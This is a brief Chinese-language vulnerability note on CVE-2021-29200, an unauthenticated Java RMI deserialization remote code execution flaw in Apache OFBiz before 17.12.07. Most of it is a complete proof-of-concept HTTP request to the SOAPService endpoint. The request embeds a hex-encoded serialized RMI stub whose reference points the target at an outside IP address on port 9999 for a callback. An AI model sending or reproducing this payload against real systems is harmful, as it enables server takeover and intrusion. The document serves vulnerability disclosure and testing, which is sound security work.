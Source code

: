 # Apache OFBiz RMI Bypass RCE CVE-2021-29200

## 漏洞描述

由于Apache OFBiz存在Java RMI反序列化漏洞，未经身份验证的用户可以执行RCE攻击，导致服务器被接管。

参考链接：

- https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw
- https://xz.aliyun.com/t/9556

## 漏洞影响

```
Apache OFBiz < 17.12.07
```

## 漏洞复现

poc：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: xxx
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 877


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>ACED0005737200326A617661782E6D616E6167656D656E742E72656D6F74652E726D692E524D49436F6E6E656374696F6E496D706C5F5374756200000000000000020200007872001A6A6176612E726D692E7365727665722E52656D6F746553747562ECC98BE1651A0200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707738000A556E6963617374526566000F3130342E3135362E3233312E3135300000270FFFFFFFFFEF34D1DB00000000000000000000000000000078</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```

